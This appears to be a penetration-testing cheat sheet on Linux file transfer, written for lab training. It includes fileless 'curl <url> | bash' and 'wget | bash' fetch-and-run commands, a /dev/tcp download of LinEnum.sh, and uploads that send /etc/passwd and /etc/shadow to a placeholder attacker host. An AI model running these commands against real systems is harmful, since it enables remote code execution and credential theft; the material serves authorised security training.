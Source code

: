 ```yaml
---
title: "Linux File Transfer Methods"
weight: 2
---
```

---

![File Transfer](file-transfer.webp)

## Download Operations

### Base64 Encoding / Decoding

```
cat hash.txt |base64 -w 0;echo (Encoding)

echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZL' (Decoding)

md5sum hash.txt
```

### Web Downloads with Wget and cURL

#### Download a File Using wget

```
wget <url> -O <filename>
```

#### Download a File Using cURL

```
curl -o <filename> <url>
```

### Fileless Attacks Using Linux

#### Fileless Download with cURL

```
curl <url> | bash
```

#### Fileless Download with wget

```
wget -qO- <url> | bash
```

### Download with Bash (/dev/tcp)

#### Connect to the Target Webserver

```
exec 3<>/dev/tcp/<ip>/<port>
```

#### HTTP GET Request

```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```
cat <&3
```

### SSH Downloads

#### Enabling the SSH Server

```
sudo systemctl enable ssh
```

#### Starting the SSH Server

```
sudo systemctl start ssh
```

#### Checking for SSH Listening Port

```
netstat -lnpt
```

#### Linux - Downloading Files Using SCP

```
scp <user><ip>:/root/myroot.txt . 
```

## Upload Operations

### Web Upload

#### Start Web Server

```
sudo python3 -m pip install --user uploadserver
```

#### Create a Self-Signed Certificate

```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

#### Start Web Server

```
mkdir https && cd https
```

#### Linux - Upload Multiple Files

```
curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Alternative Web File Transfer Method

#### Creating a Web Server with Python3

```
 python3 -m http.server
```

#### Creating a Web Server with Python2.7

```
python2.7 -m SimpleHTTPServer
```

#### Creating a Web Server with PHP

```
php -S 0.0.0.0:8000
```

####  Creating a Web Server with Ruby

```
ruby -run -ehttpd . -p8000
```

#### Download the File from the Target Machine

```
wget <ip>:<port>/filetotransfer.txt
```

### SCP Upload

#### File Upload using SCP

```
scp /etc/passwd <user>@<ip>:/home/htb-student/
```
